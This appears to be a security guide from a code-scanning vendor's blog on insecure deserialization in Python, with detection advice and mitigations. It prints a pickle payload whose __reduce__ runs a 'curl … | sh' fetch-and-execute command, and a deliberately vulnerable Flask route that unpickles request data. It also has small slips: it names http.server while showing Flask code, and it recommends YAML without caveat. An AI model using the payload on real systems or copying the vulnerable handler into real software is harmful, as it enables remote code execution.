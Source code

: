 ### Common Insecure Deserialization Attacks

The most severe outcome of insecure deserialization is remote code execution. In this case, an attacker provides a serialized payload that, when deserialized, executes system commands. 

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ("curl http://semgrep.dev/attacker.sh | sh",))

payload = pickle.dumps(Exploit())
```

In the minimal example shown above, a pickle payload is crafted that calls `os.system` to fetch and run a script from a domain such as `semgrep.dev`. The deserialization process is not just restoring an object; it is executing arbitrary code on the server.


### How-to Detect Insecure Deserialization In Python Code

Consider a Python web server built using the standard library’s `http.server` module. A developer might be tempted to unpickle data received in a request for convenience.

```python
import pickle
from flask import Flask, request
import io

app = Flask(__name__)

@app.route("/deserialize", methods=["POST"])
def deserialize():
    # Attacker controls request body
    raw_data = request.data
    obj = pickle.load(io.BytesIO(raw_data))
    return str(obj)
```

In this example, the call to `pickle.load` is applied directly to data derived from user input. If an attacker crafts a malicious pickle string, it will be executed when the handler processes the request. This is precisely the kind of pattern Semgrep’s rules can detect. The rules track data flow from untrusted sources such as HTTP request paths or headers and flag places in the code where it when it reaches sensitive functions like `pickle.loads`. Semgrep currently covers over a dozen Python libraries with known insecure deserialization functions.


### Recommendations & Mitigations

The simplest and most effective recommendation is to avoid `pickle` and its variants (`_pickle`, `cPickle`, `dill`, `jsonpickle`, `shelve`) for any untrusted input. These libraries cannot be made safe against arbitrary input because they allow execution by design. Use YAML or JSON to transfer and store data instead.
